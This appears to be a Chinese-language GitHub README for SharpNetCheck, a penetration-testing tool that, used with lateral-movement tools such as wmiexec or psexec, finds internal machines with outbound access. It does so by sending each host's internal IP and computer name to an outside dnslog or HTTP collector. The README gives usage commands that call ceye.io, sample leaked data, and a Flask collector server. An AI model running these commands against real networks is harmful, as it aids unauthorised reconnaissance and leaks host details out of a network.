

# SharpNetCheck
在渗透过程中，对可以出网的机器是十分渴望的。在收集大量弱口令的情况下，一个一个去测试能不能出网太麻烦了。所以就有了这个工具，可配合如wmiexec、psexec等横向工具进行批量检测，该工具可以在dnslog中回显内网ip地址和计算机名，可实现内网中的快速定位可出网机器。

```
> SharpNetCheck.exe

Author: Uknow
Github: https://github.com/uknowsec/SharpNetCheck

Usage: SharpNetCheck -dns -host ceye.io
       SharpNetCheck -http ceye.io
       SharpNetCheck -all ceye.io
```

## ceye

`SharpNetCheck -all -host xxx.ceye.io`

#### HTTP Requests

```
Method: Post
Data: host=DESKTOP-KUMLA9N&ip1=172.16.242.133
```

#### DNS Query Name
```
172.16.242.133-DESKTOP-KUMLA9N.xxx.ceye.io
```


## 搭建http 回显 服务器 

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def welcome():
    return 'Welcome'

@app.route('/register', methods=['POST'])
def register():
    print(request.headers)
    print(request.stream.read())
    return 'welcome'


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=38989, debug=True)
```

然后运行 SharpNetCheck.exe

```
>SharpNetCheck.exe -http 1x.x.x.x2:38989/register

Net Ckeck by HTTP , Please check the DNSlog
```

服务器就可以接收到post的内容



修改 `SharpNetCheck/Program.cs` 第97行代码

`url = "http://" + url + "/";`

为

`url = "http://" + url;`
